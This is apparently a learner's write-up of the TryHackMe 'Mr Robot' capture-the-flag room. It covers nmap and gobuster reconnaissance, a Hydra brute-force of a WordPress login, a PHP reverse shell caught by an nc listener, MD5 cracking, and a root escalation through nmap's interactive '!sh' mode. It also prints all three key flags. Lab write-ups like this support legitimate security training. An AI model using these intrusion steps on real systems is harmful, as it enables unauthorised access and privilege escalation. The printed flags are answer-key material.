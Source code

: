 https://tryhackme.com/room/mrrobot

Machine IP: 10.10.184.106

Task 1 is a joke.


Task 2.1 What is key 1?
Hint: Robots
Nmap basic  scan: nmap -sV 10.10.184.106
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-07 07:13 EST
Nmap scan report for 10.10.184.106
Host is up (0.18s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.86 seconds
Somethings to note is that security such as port 443 and 22 is here instead of just http or ftp being open. 
└─$ sudo nmap -sS -sV -A -T4 -vv 10.10.184.106
Results just in case something was missed. 443/tcp open   ssl/http syn-ack ttl 61 Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c163b1987c342ad6634c1c9d0aafb97
| SHA-1: ef0c5fa5931a09a5687ca2c280c4c79207cef71b

Apache server as earlier stated. 
Looking at the site loads what looks to be a script to run a linux login. Not prompted to a terminal login as root on fsociety. Gives me the option to run 6 or 7 commands. 
Running prepare: weird video. 
Running fsociety: shorter video. 
Running inform: more hints and such. 
Have promise with the join command…join returns a script sending of dialogue. Now asking for an email address. Plugged an email address test@gmail.com returned “see you soon”. 
Plugged in a ral email address to see if itr would send a hint or the next steps. 
Found in robots.txt User-agent: *
fsocity.dic
key-1-of-3.txt

Tried to curl the output of the first file, but unable to to do so. 
Found some commands trying curl -- http://10.10.184.106/robots.txt --output *   which downloads the file, but not the contents. 

Going back, viewing the page source of the web address returns. 
<!doctype html>
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
<html class="no-js" lang="">
  <head>
    <link rel="stylesheet" href="css/main-600a9791.css">

    <script src="js/vendor/vendor-48ca455c.js"></script>

    <script>var USER_IP='208.185.115.6';var BASE_URL='index.html';var RETURN_URL='index.html';var REDIRECT=false;window.log=function(){log.history=log.history||[];log.history.push(arguments);if(this.console){console.log(Array.prototype.slice.call(arguments));}};</script>

  </head>
  <body>
    <!--[if lt IE 9]>
      <p class="browserupgrade">You are using an <strong>outdated</strong> browser. Please <a href="http://browsehappy.com/">upgrade your browser</a> to improve your experience.</p>
    

    <!-- Google Plus confirmation -->
    <div id="app"></div
    
    <script src="js/s_code.js"></script>
    <script src="js/main-acba06a5.js"></script>
</body>
</html>

In green is interesting
http://browsehappy.com/
visiting the site doesn’t really help either. 
I also see 208.185.115.6


Not any ip I recognize, site says it’s the User_IP. 
Returns a invalid ip. 
There is <script src="js/s_code.js"></script>
    <script src="js/main-acba06a5.js"></script>
Returns a whole lot of information to parse through. Just seems like scripts to run the website. Nothing stands out that is obvious. Also still no email. 
I was overthinking the curling the webpage, we can just type in the txt into the url lie so. http://10.10.184.106/key-1-of-3.txt

You get 073403c8a58a1f80d943455fb30724b9


2.2 What is key 2?
Visiting 10.10.184.106/User-agent: * returns nothing. 
Visiting http://10.10.184.106/fsocity.dic downloaded soemthing to my system. 
Returned a file called fsooity.dir.
Contains something I have never seen. Words are hidden until you hover or select them.
Seems like a basic wod list, maybe for bruteforcing ssh? List is rally long. 
So we have user-agent: *

Fsocity.dic: wordlist.
Funny how society is mispeled.  
Tried to connect to ssh beut connection refuses. 
Going back to the webpage source, searched key words that could help like “ssh”, “login” and “user” in the jscript.
Something to note is that I found a 
                    content: "-!- friend_ [friend_@" + USER_IP + "] has joined #fsociety.",

root@fsociety:
trying root@fsociety now..nothing new. 

I think its friend@10.10.184.106 in looking more into the jscript. 
Invalid email. 
friend_ [friend_@" + USER_IP + "] has joined #fsociety.",
this expriession I think is kept hidden or I am tripping. 
Friend_@ + 10.10.184.106, im stupid its my ip. 
Going to gobuster wat I amissing. Missing what the domain name is. 
Returned a decent amount of results. 
Something funny is that /atom crashedmy browser. 
Results
===============================================================
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.184.106/0/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.184.106/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.184.106/feed/atom/]
/audio                (Status: 301) [Size: 235] [--> http://10.10.184.106/audio/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.184.106/blog/]
/css                  (Status: 301) [Size: 233] [--> http://10.10.184.106/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.184.106/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.184.106/feed/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.184.106/Image/]
/image                (Status: 301) [Size: 0] [--> http://10.10.184.106/image/]
/images               (Status: 301) [Size: 236] [--> http://10.10.184.106/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.184.106/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 232] [--> http://10.10.184.106/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.184.106/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.184.106/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.184.106/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.184.106/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.184.106/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 235] [--> http://10.10.184.106/video/]
/wp-admin             (Status: 301) [Size: 238] [--> http://10.10.184.106/wp-admin/]
/wp-config            (Status: 200) [Size: 0]
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.184.106/wp-content/]
/wp-cron              (Status: 200) [Size: 0]
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.184.106/wp-includes/]
/wp-load              (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-login             (Status: 200) [Size: 2613]
/wp-settings          (Status: 500) [Size: 0]
/wp-mail              (Status: 500) [Size: 3064]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.184.106/wp-login.php?action=register]
/xmlrpc               (Status: 405) [Size: 42]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4612 / 4615 (99.93%)
Got a login @ http://10.10.184.106/wp-login.php.
Wordpress login which is out of the ordinary. 
Used Hydra to brute force the username with the commands /home/kali/thm/rooms/mrrobot/loot# hydra -L fsocity.dic -p test 10.10.12.13 
Found Elliot as the username 
Returned a ER28-0652, elliots employee number. 

Needed a guide for the rest of this, but how I can explain is that we need a reverse shell for reverses shell in wordpress.
Starting the nc listeners with └─$ nc -nlvp 4444
Work here: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
PHP file for the archives folder. Having issues opening and connecting to th lister.
Checked connection, port and ip. After redoing it I get. 
──(kali㉿kali)-[~]
└─$ nc -nlvp 4444         
listening on [any] 4444 ...
connect to [10.2.98.64] from (UNKNOWN) [10.10.184.106] 34489
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 13:22:33 up  1:10,  0 users,  load average: 0.05, 0.05, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
$
Tried to cap the 2nd text down below, but returned a permission denied. 
$ ls
key-2-of-3.txt
password.raw-md5
$ less key-2-of-3.txt
key-2-of-3.txt: Permission denied
need to escualte prvileage when we are just Linux in the whoami. 
I do see 
$ ls
key-2-of-3.txt
password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
$

Going to https://crackstation.net/ 
Its just abcdefghijklmnopqrstuvwxyz
I remember using python to upgrade priv with python -c 'import pty;pty.spawn("/bin/bash")
List of commands for show of work.
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ whoami
whoami
robot
robot@linux:/$ ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
robot@linux:/$ cd /home/robot
cd /home/robot
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ less key-2-of-3.txt
less key-2-of-3.txt
WARNING: terminal is not fully functional
key-2-of-3.txt  (press RETURN)
822c73956184f694993bede3eb39f959
key-2-of-3.txt (END)


What is key 3?
Hint nmap
Strange hint, but I remember seeing info about hwo to escualte privlerage by setting up a shell that escualtes prvileages in a usr folder. Looking around manually in the usr/ folders I see 
/usr/bin/sudo & /usr/local/bin/nmap 
The latter may be a clue 
Sudo doesn’t really return anything, looking at gtfo bins we can see there is a shell for the nmap binary.
https://gtfobins.github.io/gtfobins/nmap/

Plugging in. 

aemon@linux:/$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap –interactive

•  The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
nmap --interactive
nmap> !sh


Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
#

Cool, looking around in the root folder returns 
ls
firstboot_done  key-3-of-3.txt
# less key-3-of-3.txt
less key-3-of-3.txt
WARNING: terminal is not fully functional
key-3-of-3.txt  (press RETURN)
04787ddef27c3dee1ee161b21670b4e4
key-3-of-3.txt (END)


Side notes, I guess the email was a pitfall thinking back on how much time I was wasted there. 
